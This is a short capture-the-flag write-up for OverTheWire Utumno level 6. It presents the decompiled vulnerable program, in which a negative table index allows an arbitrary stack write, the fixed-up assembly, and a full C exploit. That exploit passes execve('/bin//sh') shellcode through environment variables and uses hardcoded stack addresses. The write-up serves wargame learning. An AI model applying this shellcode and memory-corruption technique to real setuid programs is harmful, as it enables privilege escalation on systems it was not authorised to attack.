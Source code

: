# Overthewire Utumno Level 6 Writeup

This one took me sometime since I can not figure out what caused the space layout subtly different between real one and the one in gdb. I decide to get back to this when I have an idea.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v4; // [sp+1Ch] [bp-34h]@4
  int v5; // [sp+20h] [bp-30h]@10
  unsigned __int32 v6; // [sp+48h] [bp-8h]@7
  unsigned __int32 v7; // [sp+4Ch] [bp-4h]@7

  if ( argc <= 2 )
  {
    puts("Missing args");
    exit(1);
  }
  v4 = (char *)malloc(0x20u);
  if ( !v4 )
  {
    puts("Sorry, ran out of memory :-(");
    exit(1);
  }
  v7 = strtoul(argv[2], 0, 16);
  v6 = strtoul(argv[1], 0, 10);
  if ( (signed int)v6 > 10 )
  {
    puts("Illegal position in table, quitting..");
    exit(1);
  }
  *(&v5 + v6) = v7;
  strcpy(v4, argv[3]);
  printf("Table position %d has value %d\nDescription: %s\n", v6, *(&v5 + v6 * 4), v4); // IDA got this wrong, the original one does not multiply v6 with 4
  return 0;
}
```

The default configuration of Hex-Ray seems to mess up with types. After checking the assembly code I fixed the decompiled code.

```assembly
080485cf         mov        edx, dword [ss:esp+0x1c]
080485d3         mov        eax, dword [ss:esp+0x48]
080485d7         mov        eax, dword [ss:esp+eax*4+0x20] ; eax * 4 here
080485db         mov        dword [ss:esp+0xc], edx
080485df         mov        dword [ss:esp+0x8], eax
080485e3         mov        eax, dword [ss:esp+0x48]
080485e7         mov        dword [ss:esp+0x4], eax
080485eb         mov        dword [ss:esp], 0x80486e4                           ; "Table position %d has value %d\\nDescription: %s\\n", argument "format" for method printf@PLT
080485f2         call       printf@PLT
```

I have to exactly control the stack content to ensure that the layout of memory stays the same. So I used the exploit below:

```c
#include <unistd.h>

int main(){
        char *argv[5];
        argv[0]="/utumno/utumno6";
        argv[1]="-1";
        argv[2]="0xffffddec"; // Use gdb to find out the ebp
        argv[3]="\xa9\xdf\xff\xff"; // the shellcode address
        argv[4]=NULL;
        char *env[11];
        env[0]="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80";
        env[1]=env[2]=env[3]=env[4]=env[5]=env[6]=env[7]=env[8]="";
        env[9]="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7\x85\x1e\xa1\xff";
        env[10]=NULL;
        execve("/utumno/utumno6",argv,env);
}
```

You know what to do next to get the flag.
